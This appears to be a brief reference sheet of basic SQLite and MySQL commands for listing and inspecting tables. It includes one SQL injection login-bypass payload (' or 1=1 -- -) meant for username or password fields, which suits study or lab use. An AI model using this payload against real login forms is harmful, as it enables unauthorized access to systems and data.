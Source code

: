 Basic SQL Queries

Listing tables:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.tables
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Showing Contents of Specific Tables:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PRAGMA table_info(TABLENAME);
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Showing information from Specific Tables:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT * from tablename;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SQL Injection

Simple SQLi query for use in Username or Password field

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
' or 1=1 -- -
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SHOW DATABASES;

USE database;

SHOW TABLES;

DESCRIBE table;

SELECT field FROM table-content;
